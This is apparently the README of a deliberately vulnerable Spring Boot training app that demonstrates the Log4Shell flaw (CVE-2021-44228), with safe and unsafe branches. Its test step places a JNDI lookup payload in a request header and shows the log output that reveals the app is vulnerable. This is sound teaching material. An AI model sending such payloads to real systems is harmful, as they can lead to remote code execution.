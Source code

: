 # mad-goat-log4shell

MAD Goat spring boot application explaning what a goat shell is. :goat:

**Warning:**This application may contain the log4shell vulnerability depending on the version of the log4j library used.
**Warning:**On the branch safe you can find a version of the application that does not contain the vulnerability.
**Warning:**On the branch unsafe you can find a version of the application that contains the vulnerability.

## Pre-requisites

- Java 17
- Maven

## Run the application

1. Open a terminal
2. Clone the repository
3. Go to the root of the project
4. Run the following command

```bash
mvn spring-boot:run
```

## Vulnerability

On December 9th, the most critical zero-day exploit in recent years was discovered affecting most of the biggest enterprise companies. This critical 0-day exploit was discovered in the extremely popular Java logging library which allows RCE (Remote code execution) by logging a certain payload.

![Log4j Vulnerability](/assets/log4shell.jpg)

This vulnerability is also known as CVE-2021-44228 which has a CVSS (Common Vulnerability Scoring System) score of 10, which is the highest risk possible and was published by GitHub advisory with a critical severity level. [Checkmarx](https://checkmarx.com/blog/apache-log4j-remote-code-execution-cve-2021-44228/)

## Explore the vulnerability

1. Find the base URL of the goat4shell service.
2. Make a GET request to the following endpoint: /goatShell
3. You should see the following response:

```bash
{
    "name": "Goat Shell",
    "description": "Meet the extraordinary goat with a shell on its back, a truly unique creature that challenges our understanding of the natural world. This remarkable animal defies convention with its unusual adaptation, offering a level of protection that its unshelled counterparts lack. Join us as we explore this fascinating species and uncover the secrets of its remarkable shell."
}
```

4. Make the same GET request but add the optional header "X-API-Version" with the value "${jndi:ldap://127.0.0.1:10250/asdsds}" to the request.

5. If you are debugging the application or running it on a acceessable container, you can see the following log:

```bash
2023-08-15 15:12:46,787 http-nio-8080-exec-8 WARN Error looking up JNDI resource [ldap://127.0.0.1:10250/asdsds]. javax.naming.CommunicationException: 127.0.0.1:10250 [Root exception is java.net.ConnectException: Connection refused]
```

6. This means that the application is vulnerable to the log4shell vulnerability.
